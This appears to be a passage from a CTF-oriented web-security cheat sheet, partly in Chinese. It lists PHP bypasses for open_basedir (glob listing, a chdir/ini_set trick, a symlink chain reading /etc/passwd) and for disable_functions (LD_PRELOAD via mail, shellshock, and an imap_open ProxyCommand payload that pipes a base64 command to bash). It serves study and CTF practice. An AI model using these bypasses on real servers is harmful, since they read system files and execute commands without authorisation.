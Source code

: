 ```php
$file_list = array();
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
    echo "{$f}<br/>";
}
```

- [phuck3](https://twitter.com/Blaklis_/status/1111586655134203904)

```php
chdir('img');
ini_set('open_basedir','..');
chdir('..');chdir('..');
chdir('..');chdir('..');
ini_set('open_basedir','/');
echo(file_get_contents('flag'));
```

- symlinks

```php
mkdir('/var/www/html/a/b/c/d/e/f/g/',0777,TRUE);
symlink('/var/www/html/a/b/c/d/e/f/g','foo');
ini_set('open_basedir','/var/www/html:bar/');
symlink('foo/../../../../../../','bar');
unlink('foo');
symlink('/var/www/html/','foo');
echo file_get_contents('bar/etc/passwd');
```

- Fastcgi
    - [link](https://github.com/w181496/CTF/tree/master/0ctf2019_qual/WallbreakerEasy)

- ...

## disable_functions繞過

- bash shellshock
- mail()
    - `sendmail`
    - putenv寫LD_PRELOAD
    - trick: [LD_PRELOAD without sendmail/getuid()](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)

- mb_send_mail()
    - 跟 mail() 基本上一樣

- imap_mail()
    - 同上

- imap_open()
    ```php
    <?php
    $payload = "echo hello|tee /tmp/executed";
    $encoded_payload = base64_encode($payload);
    $server = "any -o ProxyCommand=echo\t".$encoded_payload."|base64\t-d|bash";
    @imap_open('{'.$server.'}:143/imap}INBOX', '', '');
    ```
- error_log()
    - 第二個參數 `message_type` 為 1 時，會去調用 sendmail
